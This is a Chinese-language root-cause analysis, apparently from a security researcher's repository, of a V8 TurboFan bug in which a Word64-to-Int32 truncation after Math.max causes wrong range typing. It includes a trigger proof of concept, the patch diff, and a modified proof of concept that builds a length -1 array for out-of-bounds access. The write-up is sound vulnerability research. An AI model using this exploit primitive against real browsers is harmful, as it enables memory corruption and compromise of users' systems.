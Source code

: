 poc:
```
function foo(b){
    let y = (new Date(42)).getMilliseconds();
    let x = -1;
    if(b) x = 0xFFFF_FFFF;
    let c = Math.max(0, x , -1);
	  return -1 < c;
}

console.log(foo(true));
console.log(foo(false));
for(i=0;i<0x10000;i++)
  foo(false);
console.log(foo(true));
```

Root case：
当b是true时，x = 0xFFFF_FFFF；
在Math.max中，x的类型为kword64，此时他是一个无符号数，值为0xFFFF_FFFF所以在max后返回0xFFFF_FFFF，但是-1 < c比较时，因为比较是Int32lessthan，jit时这里会有一个将word64截断为int32的过程(可以对照下面的代码)，此时0xFFFF被识别为有符号数为-1，所以返回false。

![](./img/1.png)

相关代码：
```
@@ -949,10 +949,10 @@
     return node;
   } else if (output_rep == MachineRepresentation::kWord64) {
     if (output_type.Is(Type::Signed32()) ||
-        output_type.Is(Type::Unsigned32())) {
-      op = machine()->TruncateInt64ToInt32();
-    } else if (output_type.Is(cache_->kSafeInteger) &&
-               use_info.truncation().IsUsedAsWord32()) {
+        (output_type.Is(Type::Unsigned32()) &&
+         use_info.type_check() == TypeCheckKind::kNone) ||
+        (output_type.Is(cache_->kSafeInteger) &&
+         use_info.truncation().IsUsedAsWord32())) {
       op = machine()->TruncateInt64ToInt32();
     } else if (use_info.type_check() == TypeCheckKind::kSignedSmall ||
                use_info.type_check() == TypeCheckKind::kSigned32 ||
```

原先当if (output_type.Is(Type::Signed32()) ||       output_type.Is(Type::Unsigned32()))条件满足时，将会添加一个TruncateInt64ToInt32();截断，这也就是漏洞的成因。

稍微修改下poc：
```
function foo(b) {
	let x = -1;
	if (b) x = 0xFFFF_FFFF;
	let c = Math.max(0, x) - 1;
	c = -c;
	c = Math.max(c, 0);
	c -= 1;
	var arr=new Array(c);
	arr.shift();
	var cor = [1.1,1.2,1.3];
	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(false);

var x = foo(true);
var arr = x[0];
var cor = x[1];
console.log(arr.length);
```
简单分析一下poc：

let c = Math.max(0, x) - 1;
ir图如下：
![](./img/2.png)
此处是在max结点和sub结点直接的截断触发了漏洞。
这将导致实际值为-2，而推测值为Range(-1,4294967294)；

c = 0-c; 实际值2，推测范围Range(-4294967294,1)
c = Math.max(c, 0);//实际值2，推测范围Range(0,1)
c -= 1;//实际值1，推断范围Range(-1，0）
ir图如下：
![](./img/3.png)
通过运算构造出oob所需要的格式这样就可以配合arr.shift();创建出长度为-1的arry，即可用它来oob。

我们来简单看一下arr.shift附近的ir图：
![](./img/4.png)
上图是load elimination阶段之前的图，此时由于不知道具体的length范围，会给它一个初始的大range。

load elimination阶段之后将length折叠为了常数-1
![](./img/5.png)

相关代码：
![](./img/6.png)

